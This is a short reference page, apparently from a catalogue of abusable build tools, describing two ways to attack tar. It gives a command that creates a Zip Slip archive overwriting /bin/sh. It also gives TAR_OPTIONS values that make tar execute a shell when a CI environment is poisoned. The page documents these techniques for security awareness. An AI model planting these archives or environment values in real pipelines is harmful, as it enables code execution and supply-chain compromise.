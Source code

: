 ```yaml
---
title: tar
tags:
- cli
- input-file
- env-var
references: https://man.freebsd.org/cgi/man.cgi?tar(1)#SECURITY
files: ['*.tar', '*.tar.gz', '*.tar.xz', '*.tar.tz', '*.tar.bz2', '*.tar.z']
---
```


`tar` is a widely used archiver.

## Zip Slip

If `tar` uses `-P` or `--absolute-names`, it is vulnerable to [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability), where a malicious archive can overwrite files in any parent directories. It can be used to:
  - Poison the source code
  - Replace an executable or a config file which can lead to RCE
To create a malicious archive:
```sh
tar cPf zipslip.tar ../../../../../../bin/sh
```

## Environnement variable

`tar` prepend **TAR_OPTIONS** env variable to every call. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
```sh
export TAR_OPTIONS='--checkpoint=1 --checkpoint-action=exec=sh'
export TAR_OPTIONS='--to-command sh'
tar xf test.tar
```
